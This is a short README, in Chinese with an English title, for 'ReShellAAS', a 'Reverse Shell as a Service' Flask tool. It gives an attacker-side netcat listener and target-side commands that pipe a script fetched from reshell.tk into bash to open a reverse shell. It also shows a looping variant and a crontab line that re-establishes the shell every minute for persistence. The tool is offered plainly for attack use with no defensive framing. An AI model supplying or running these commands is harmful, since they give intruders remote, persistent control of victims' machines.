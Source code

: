 # ReShellAAS
Reverse Shell as a Service
反弹shell即服务

# 项目简介
无需再去记住复杂的反弹shell命令，通过Reverse Shell as a Service可以方便、快捷的创建反弹shell脚本。

# 安装及服务端启动方法
```
pip3 install flask
python3 app.py
```

# 使用方法
## Attacker Machine
```
nc -l 1337
```

## Target Machine
```
curl http://reshell.tk/ip/1337 | bash
或者
while true; do curl http://reshell.tk/ip/1337 | bash; done
```
配合crontab使用效果更佳
```
crontab -e
* * * * * /usr/bin/curl http://reshell.tk/ip/1337 | bash
```

# 致谢
感谢P师傅以及P师傅的知识星球以及原创这个点子的小机灵鬼。

# TODO
- 适应多场景的反弹shell语法
- etc...


